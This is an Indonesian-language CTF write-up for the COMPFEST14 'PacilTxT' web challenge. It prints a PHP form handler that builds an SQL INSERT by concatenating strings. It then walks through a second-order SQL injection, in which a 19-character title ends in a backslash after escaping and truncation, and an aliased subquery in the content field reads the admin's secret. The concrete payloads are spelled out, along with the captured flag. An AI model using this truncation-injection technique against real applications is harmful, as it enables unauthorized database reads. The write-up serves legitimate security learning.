 # PacilTxT

> Write-up author: jon-brandy (SOLVED)

## DESKRIPSI:
Admin wrote his secret on this website. Can you read it?
`http://103.185.38.238:16729/`
Reference https://portswigger.net/support/sql-injection-in-different-statement-types

[FILE](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/f8cf827bbb9adae041931e58fe93acd859885363/Asset/Web%20Exploitation/PacilTxT/submit.php)

## LANGKAH-LANGKAH:
1. Pertama, unduh file `.php` yang diberikan, lalu lihat isinya.

> SUBMIT.PHP

```php

<?php
require_once('koneksi.php');
require_once('utils.php');

if (!isset($_POST['title']) || !isset($_POST['content'])) {
    die('Method not allowed');
} 

$txtCode = gen_random_string(6);
$saveTitle = $db_connect->real_escape_string($_POST['title']);
$txtTitle = substr($saveTitle,0,20);
$txtContent = $db_connect->real_escape_string($_POST['content']);

$query = "INSERT INTO paciltxt_post(code, title, content) VALUES ('".$txtCode."', '".$txtTitle."', '".$txtContent."')";
$sql = $db_connect->query($query);
if ($db_connect->error) {
    header('Location: /');
}

header('Location: /view.php?code='.$txtCode);

```

2. Setelah diperhatikan, value dari variabel `$query` dapat kita manfaatkan kerentanannya.

![image](https://user-images.githubusercontent.com/70703371/185785104-cfb109bd-0371-432a-a37e-0bba025ba460.png)

3. Pada variable `$txtCode` value berisikan 6 strings random.

![image](https://user-images.githubusercontent.com/70703371/185785149-c31772e7-7359-4e90-8e50-919883524344.png)

4. Lalu pada variable `$txtTitle` diketahui value berisikan input strings pada textarea title dengan total 20 karakter maksimal.

![image](https://user-images.githubusercontent.com/70703371/185785198-73cddadb-2e9a-48d5-af1e-348be74284ad.png)

5. Terakhir pada variable `$txtContent` diketahui value berisikan input strings pada textarea content yang pastinya telah diescape setelah diinput atau memiliki escape character di akhir strings.

![image](https://user-images.githubusercontent.com/70703371/185785260-96da96bd-ea75-403b-8290-e9e1ab64ccbb.png)

> PADA TITLE JUGA TERDAPAT ESCAPE STRING

![image](https://user-images.githubusercontent.com/70703371/185785280-f98fed9b-e16f-4aa5-bb5f-cf95c9e85020.png)

> PADA CONTENT

![image](https://user-images.githubusercontent.com/70703371/185785287-4df12559-4bd2-4695-9872-9d361d7329e7.png)

6. Vuln yang dapat dimanfaatkan yaitu dengan melakukan input karakter sebanyak 19 saja karena nantinya `\` yang merupakan karakter dari escape string akan masuk menjadi karakter ke **20**.
7. Sehingga tutup petik yang sesungguhnya akan ter-*escape*.

![image](https://user-images.githubusercontent.com/70703371/185785421-c0036fa2-1b60-4fc6-b3f6-948660e5e947.png)

8. Pada tahap ini kurang lebih query akan menjadi seperti ini:

> NOTES : input isi title dengan -> AAAAAAAAAAAAAAAAAAA\', 

```sql
INSERT TWO paciltxt_post(code, title, content) VALUES ('randStrings' 'AAAAAAAAAAAAAAAAAAA\',  ...
```

9. Lalu pada content, karena kita sudah memiliki kontrol pada value content, saatnya mengubah sintaksnya. Namun perlu diingat untuk menambahkan separator `,` dan menambahkan comment pada **petik tutup** yang tidak diperlukan.
10. Selanjutnya, untuk mengambil value dari paciltxt_post, harus menggunakan aliasing. Hal ini dikarenakan simbol paciltxt_post sudah digunakan sebagai target dari query *INSERT*.
11. Berikut adalah querynya:

> VALUE UNTUK CONTENT

```sql
, (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')
```

12. Pada tahap ini query secara lengkap akan tampak seperti berikut:

```sql
INSERT TWO paciltxt_post(code, title, content) VALUES ('randStrings' 'AAAAAAAAAAAAAAAAAAA\', ', (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')
```

13. Kesimpulannya pada title inputkan -> `AAAAAAAAAAAAAAAAAAA\` dan pada content inputkan -> `, (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')`. Lalu tekan button *post*.

![image](https://user-images.githubusercontent.com/70703371/185786148-e4b3dfb6-8945-477c-9dd4-ddb26ec73ce9.png)

15. Flag pun didapat!

![image](https://user-images.githubusercontent.com/70703371/185786089-3e9a7f4f-1bf2-4e3b-8978-6a4c742d86ac.png)



## FLAG

```
COMPFEST14{k3teLiti4n_4daLAh_kUnTjh1_faabc736c3}
```
